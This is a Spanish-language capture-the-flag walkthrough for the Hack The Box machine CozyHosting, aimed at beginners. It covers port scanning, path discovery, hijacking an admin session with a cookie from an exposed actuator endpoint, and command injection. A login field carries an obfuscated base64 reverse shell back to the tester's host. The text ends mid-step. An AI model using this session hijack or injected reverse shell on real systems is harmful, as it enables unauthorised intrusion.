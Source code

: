 # CozyHosting Guia

En este repositorio se busca explicar paso a paso la búsqueda de la bandera. Pensé en crear esto para las personas nuevas en el mundo del hacking ético y que no se sientan tan abrumadas con tantos conceptos.

**Lo primero que haremos es identificar nuestra máquina que querremos atacar, que en este caso es la CozyHosting. Esta tiene la siguiente información:**

- **IP: 10.10.11.230**

## Editar el archivo /etc/hosts

Para comenzar, necesitamos editar nuestro archivo `/etc/hosts` utilizando el siguiente comando:

```
sudo nano /etc/hosts
```

- **`sudo`**: "sudo" es un comando en sistemas Unix y Linux que significa "superusuario do". Permite a un usuario ejecutar un comando con privilegios elevados, generalmente como el superusuario o administrador del sistema. El uso de "sudo" es necesario para editar archivos que requieren permisos de administrador, como el archivo `/etc/hosts`.

- **`nano`**: "nano" es un editor de texto en la línea de comandos. Es una herramienta simple y fácil de usar para editar archivos de texto en la terminal. En este caso, se utiliza para abrir y editar el archivo `/etc/hosts`.

- **`/etc/hosts`**: "/etc/hosts" es la ruta completa al archivo que estás tratando de abrir y editar. Este archivo es importante porque se utiliza para resolver nombres de host a direcciones IP en sistemas Unix y Linux. Cuando tu computadora intenta acceder a un sitio web o un recurso en la red, primero verifica si la dirección IP correspondiente está en este archivo antes de recurrir a un servidor DNS público. Agregar entradas en este archivo te permite personalizar la resolución de nombres en tu sistema local.

![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/856ef6b8-7ca9-41b1-85d2-c73c7b9f8cdd)

**Ya dentro, procedemos a agregar nuestra IP junto con la URL.**

![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/e9507dcf-d020-4aad-95be-1508f01a9262)

*(para guardar con Ctrl+O, Ctrl+X, yes, te preguntará si quieres cambiar el nombre, simplemente dale enter)*


![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/59792084-eb50-4ae9-939a-b4095ad38a13)

*Para comprobar que hicimos todo bien, podemos entrar a http://cozyhosting.htb. en resumen utilizar el comando "sudo nano /etc/hosts" es importante para personalizar la resolución de nombres en tu sistema local y permitirte acceder a máquinas o servicios específicos en entornos de CTF como Hack The Box, donde es común que los nombres de host y direcciones IP se utilicen de manera no convencional.*



## NMAP 

```
nmap -sS -sV -p- 10.10.11.230 -o cozyhosting
```
- **`Identificación de puertos abiertos (-p-)`**:La opción -p- le indica a Nmap que escanee todos los puertos posibles en el rango completo (1-65535). Esto es importante porque, en muchos casos, no sabes qué puertos pueden estar abiertos en la máquina objetivo. Al escanear todos los puertos, te aseguras de no pasar por alto ningún servicio o aplicación que pueda estar en ejecución.

- **`Escaneo de tipo SYN (-sS)`**:El escaneo de tipo SYN es un escaneo sigiloso y menos intrusivo. Envía paquetes SYN a los puertos y espera respuestas. Si recibe una respuesta SYN/ACK, sabe que el puerto está abierto. Si recibe un RST (restablecimiento) en respuesta, el puerto está cerrado. Este tipo de escaneo es útil para determinar la accesibilidad de los puertos sin establecer completamente la conexión, lo que podría dejar rastros en el servidor objetivo.

- **`Detección de servicios y versiones (-sV)`**: La opción -sV le permite a Nmap intentar detectar el servicio que se ejecuta en un puerto y, en algunos casos, incluso la versión específica del software. Esto es útil para identificar qué servicios están en funcionamiento en la máquina objetivo y conocer las vulnerabilidades asociadas a esas versiones específicas.

- **`Generación de un informe de resultados (-o)`**:Al utilizar la opción -o seguida de un nombre de archivo, puedes generar un informe de resultados que contiene los detalles del escaneo. Esto te permite registrar la información que obtuviste y revisarla posteriormente. Además, es útil para documentar tu progreso y compartir información con otros miembros de tu equipo en CTF.

![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/b43b57da-65ea-4b44-8ae8-1c43d3c69ccd)
- **`Resultado(-o)`**:Hacer un escaneo Nmap con las opciones -sS -sV -p- en la dirección IP 10.10.11.230  es mportante en la fase de reconocimiento y enumeración de un CTF (Capture The Flag) en Hack The Box o en cualquier otro entorno de pruebas de penetración.


## Dirsearch 
```
dirsearch -u http://cozyhosting.htb/
```

- **`Deteccion de rutas`**:Esta herramienta se utiliza para buscar posibles rutas y recursos accesibles en un sitio web o servidor web. Aquí te explico por qué es importante utilizar dirsearch en un CTF de Hack The Box o en cualquier escenario de pruebas de penetración. Con poner la url del objetivo, ya podremos acceder a sus posibles rutas.

- - **`Si llegaras a tener problemas con el Dirsearch`**: Sigue los siguientes comando si el mismo Kali te niega instalarlo. 
  ```
    git clone https://github.com/maurosoria/dirsearch.git
  ```
  ```
  cd dirsearch
  ```
  ```
  python3 dirsearch.py -u http://cozyhosting.htb/
   ```
- Ya acabo el trabajo de Dirsearch, tendras un resultado como este
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/4869a22d-4963-4b92-85ed-0fa89b44fc11)}
- Analizamos y encontraremos la siguiente ruta
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/c3df4a7e-dfb8-4fff-9b24-f90132d437d8)
- A la cual accederemos con la URL que ya teniamos de CozyHosting. Lo que vemos son las sesiones y notamos que la de kanderson es la unica que no dice "no autorizado" y con un cookie que usaremos para engañar al login.
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/76305964-d943-4ac7-ac57-8df637e72b75)

## Inyección de Cookies
- Ya teniendo la informacion anterior, ya podemos acceder al panel. Esto lo haremos por medio de la inyeccion por cookies.
 **`¿Que es la inyeccion por cookies?**: se refiere a la manipulación maliciosa o indebida de las cookies en una aplicación web. Las cookies son pequeños fragmentos de datos que un servidor web envía al navegador del usuario para almacenar información, como sesiones de usuario, preferencias y estados de autenticación. Cuando las cookies no se manejan adecuadamente, pueden surgir vulnerabilidades que permiten a un atacante inyectar o modificar cookies para obtener un acceso no autorizado o realizar ataques dirigidos.
- Esto eran lo datos que habiamos sacados de http://cozyhosting.htb/actuator/sessions
- Ahora entramos a http://cozyhosting.htb/admin (Esta URL la sacamos del paso anterior)
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/3c771f04-ef6a-4945-b340-6d6ca45bef60)

- Ingrsamos "inspeccionar codigo" y accedemos a Storange
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/410902b4-cd14-456c-aa82-9a0b843073bf)
- Remplazamos el valor que tiene , por el que sacamos en el paso anterior, dentro de http://cozyhosting.htb/actuator/sessions y la cookie de Kanderson.
- Ya agregada, refrescamos
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/e6f834a9-6cee-4b8c-b18f-11f37db5d4f6)
- luego ponemos una usario y contraseña que sea igual por ambos lados. Usario:123 Contraseña:123
- Si hicimos todo bien ahora estamos dentro
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/94d52f93-8cc9-4b48-841d-19d6952e00f8)


## Burpsuite
- Ya teniendo el paso anterior. Toca escuchar las entradas del sitio web. Usaremos la herramienta de Burpsuite. Esta herramienta nos ayuda a escuchar el trafico que sufre el proxy. Para esto primero necesitamos.
  **`Cambiar el puerto proxy de nuestro navegador`**:La herramineta escucha por medio de la 127.0.0.1 y el puerto 8080, lo que necesitamos hacer es que en nuestro navegador agregaremos estas configuraciones
  ![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/7b2d3b5c-90f8-4eb4-8db1-e471dbce261a)
- Hacemos pruebas. Podemos repetir el paso anterior pero con el Burpsuite activo y ver como funciona. 

## inyección de shell
-Si revisamos la pagina, nos daremos cuenta que hay un apartado de SSH. Lo cual nos puede servir para entrar directamente a su servicio por medio de inyección de shell y Burpsuite
- **`¿Que es la inyección de shell?**:La inyección de comandos se refiere a una vulnerabilidad en la que un atacante puede insertar comandos maliciosos o instrucciones en una entrada de datos que luego se ejecutan en el sistema objetivo a través de una conexión SSH u otro protocolo.
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/da3f192a-28e4-4ff4-9754-1c15cdcf9e9a)

- Procedemos a escribir 
- Usario:
 ```localhost```
-   Contraseña:
  ```kanderson;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS4zLzk5OTkgMD4mMQ=="|base64${IFS}-d|bash;```
-   Ya ingresado, revisamos el Burpsuite
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/afc53d27-78bb-44ab-969f-e6c2fa362e4d)
- Click Derehco y send to repeater
- Si tarda en respondernos es buena señal
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/caff2d63-f748-4199-9633-e8fed77d0b35)
-Ahora iniciamos la virtual machine para descargar el jar python3 -m
```http.server 9999  ```
- El siguiente paso es saber nuestra ip, para ello usamos
- ```ifconfig ```
- La ip esta en ![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/60f6410c-ddf6-4e72-a7a0-796317875ae1)

- La copiamos y lo pegamos
- Ya con la ip usamos este comando
```curl "TUIP BORRA LAS COMILLAS" :9999/cloudhosting-0.0.1.jar > cloudhosting.jar```
- Si todo salio bien, nos saldra algo asi. Lo que significa que se descargo con exito.
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/76099734-7371-4c0e-b4e9-d967a80c2cfe)
- Luego buscamos donde esta el archivo con
```ls```
- El archivo se encuentra descargado
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/648326ce-04f0-478f-93a7-0f40a50fd1c1)
-La maquina que iniciamos nos lo confirma
![image](https://github.com/JESUSLUG/CozyHosting-Guia-CTF-HACK-THE-BOX-/assets/116361712/a4f32b05-7bfa-4d10-b4ca-271be93cf83a)

- Al abrir el archvivo nos muestra lo siguiente
- 


      


